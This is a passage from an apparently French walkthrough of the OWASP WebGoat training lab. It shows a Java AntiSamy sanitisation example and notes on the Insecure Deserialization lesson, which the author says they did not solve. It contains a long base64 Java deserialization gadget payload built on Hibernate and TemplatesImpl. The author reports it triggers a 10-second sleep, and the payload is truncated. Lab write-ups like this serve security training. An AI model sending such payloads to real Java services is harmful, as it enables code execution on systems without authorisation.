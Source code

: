 ```java
import org.owasp.validator.html.*;  
import MyCommentDAO;  
  
public class AntiSamyController {  
     public void saveNewComment(int threadID, int userID, String newComment){  
         Policy p = Policy.getInstance("antisamy-slashdot.xml");  
         AntiSamy as = new AntiSamy();  
         CleanResults cr = as.scan(newComment, p, AntiSamy.DOM);  
         MyCommentDAO.addComment(threadID, userID, cr.getCleanHTML());  
     }  
}  
```

#### **(A8) Insecure Deserialization:**

##### Insecure Deserialization

5.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Je n'ai pas réussi à valider la leçon, ci-dessous, quelques pistes de recherche.

*   Le package à utiliser pour déclencher la faille serait Hibernate 5.
*   Le payload suivant, trouvé dans un [module](https://github.com/federicodotta/Java-Deserialization-Scanner/blob/master/src/burp/BurpExtender.java) de Burp Suite fonctionne, mais déclenche un _sleep_ de 10 secondes.
*   La [bibliothèque ysoserial](https://github.com/frohoff/ysoserial) semble être une piste de recherche aussi.

```
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1hcAUH2sHDFmDRAwACRgAKbG9hZEZhY3RvckkACXRocmVzaG9
sZHhwP0AAAAAAAAB3CAAAAAIAAAACc3IAI29yZy5oaWJlcm5hdGUuZW5naW5lLnNwaS5UeXBlZFZhbHV
lh4gUshmh5zwCAAJMAAR0eXBldAAZTG9yZy9oaWJlcm5hdGUvdHlwZS9UeXBlO0wABXZhbHVldAASTGp
hdmEvbGFuZy9PYmplY3Q7eHBzcgAgb3JnLmhpYmVybmF0ZS50eXBlLkNvbXBvbmVudFR5cGV-e2Nh9An
XEQIADVoAEmhhc05vdE51bGxQcm9wZXJ0eVoABWlzS2V5SQAMcHJvcGVydHlTcGFuTAAPY2FuRG9FeHR
yYWN0aW9udAATTGphdmEvbGFuZy9Cb29sZWFuO1sAB2Nhc2NhZGV0AChbTG9yZy9oaWJlcm5hdGUvZW5
naW5lL3NwaS9DYXNjYWRlU3R5bGU7TAARY29tcG9uZW50VHVwbGl6ZXJ0ADFMb3JnL2hpYmVybmF0ZS9
0dXBsZS9jb21wb25lbnQvQ29tcG9uZW50VHVwbGl6ZXI7TAAKZW50aXR5TW9kZXQAGkxvcmcvaGliZXJ
uYXRlL0VudGl0eU1vZGU7WwALam9pbmVkRmV0Y2h0ABpbTG9yZy9oaWJlcm5hdGUvRmV0Y2hNb2RlO1s
ADXByb3BlcnR5TmFtZXN0ABNbTGphdmEvbGFuZy9TdHJpbmc7WwATcHJvcGVydHlOdWxsYWJpbGl0eXQ
AAltaWwANcHJvcGVydHlUeXBlc3QAGltMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGU7WwAhcHJvcGVydHl
WYWx1ZUdlbmVyYXRpb25TdHJhdGVnaWVzdAAmW0xvcmcvaGliZXJuYXRlL3R1cGxlL1ZhbHVlR2VuZXJ
hdGlvbjtMAAl0eXBlU2NvcGV0ACpMb3JnL2hpYmVybmF0ZS90eXBlL1R5cGVGYWN0b3J5JFR5cGVTY29
wZTt4cgAfb3JnLmhpYmVybmF0ZS50eXBlLkFic3RyYWN0VHlwZYdFsKQmRS24AgAAeHAAAAAAAAFwcHN
yADNvcmcuaGliZXJuYXRlLnR1cGxlLmNvbXBvbmVudC5Qb2pvQ29tcG9uZW50VHVwbGl6ZXLAqqGhlZ9
DmwIABEwADmNvbXBvbmVudENsYXNzdAARTGphdmEvbGFuZy9DbGFzcztMAAlvcHRpbWl6ZXJ0ADBMb3J
nL2hpYmVybmF0ZS9ieXRlY29kZS9zcGkvUmVmbGVjdGlvbk9wdGltaXplcjtMAAxwYXJlbnRHZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxwYXJlbnRTZXR0ZXJ
0ACpMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2Nlc3Mvc3BpL1NldHRlcjt4cgA3b3JnLmhpYmVybmF
0ZS50dXBsZS5jb21wb25lbnQuQWJzdHJhY3RDb21wb25lbnRUdXBsaXplcgh6nmX_Q4R7AgAFWgASaGF
zQ3VzdG9tQWNjZXNzb3JzSQAMcHJvcGVydHlTcGFuWwAHZ2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9
wcm9wZXJ0eS9hY2Nlc3Mvc3BpL0dldHRlcjtMAAxpbnN0YW50aWF0b3J0ACJMb3JnL2hpYmVybmF0ZS9
0dXBsZS9JbnN0YW50aWF0b3I7WwAHc2V0dGVyc3QAK1tMb3JnL2hpYmVybmF0ZS9wcm9wZXJ0eS9hY2N
lc3Mvc3BpL1NldHRlcjt4cAAAAAAAdXIAK1tMb3JnLmhpYmVybmF0ZS5wcm9wZXJ0eS5hY2Nlc3Muc3B
pLkdldHRlcjsmhfgDST23zwIAAHhwAAAAAXNyAD1vcmcuaGliZXJuYXRlLnByb3BlcnR5LmFjY2Vzcy5
zcGkuR2V0dGVyTWV0aG9kSW1wbCRTZXJpYWxGb3JtrFu2VsndG1gCAARMAA5jb250YWluZXJDbGFzc3E
AfgAUTAAOZGVjbGFyaW5nQ2xhc3NxAH4AFEwACm1ldGhvZE5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt
MAAxwcm9wZXJ0eU5hbWVxAH4AIHhwdnIAOmNvbS5zdW4ub3JnLmFwYWNoZS54YWxhbi5pbnRlcm5hbC5
4c2x0Yy50cmF4LlRlbXBsYXRlc0ltcGwJV0_BbqyrMwMACUkADV9pbmRlbnROdW1iZXJJAA5fdHJhbnN
sZXRJbmRleFoAFV91c2VTZXJ2aWNlc01lY2hhbmlzbUwAGV9hY2Nlc3NFeHRlcm5hbFN0eWxlc2hlZXR
xAH4AIEwAC19hdXhDbGFzc2VzdAA7TGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x
0Yy9ydW50aW1lL0hhc2h0YWJsZTtbAApfYnl0ZWNvZGVzdAADW1tCWwAGX2NsYXNzdAASW0xqYXZhL2x
hbmcvQ2xhc3M7TAAFX25hbWVxAH4AIEwAEV9vdXRwdXRQcm9wZXJ0aWVzdAAWTGphdmEvdXRpbC9Qcm9
wZXJ0aWVzO3hwcQB-ACd0ABNnZXRPdXRwdXRQcm9wZXJ0aWVzdAAEdGVzdHBwcHBwcHBwcHB1cgAaW0x
vcmcuaGliZXJuYXRlLnR5cGUuVHlwZTt-r6uh5JVhmgIAAHhwAAAAAXEAfgAScHBzcQB-ACIAAAAA___
__wB0AANhbGxwdXIAA1tbQkv9GRVnZ9s3AgAAeHAAAAACdXIAAltCrPMX-AYIVOACAAB4cAAABiXK_rq
```
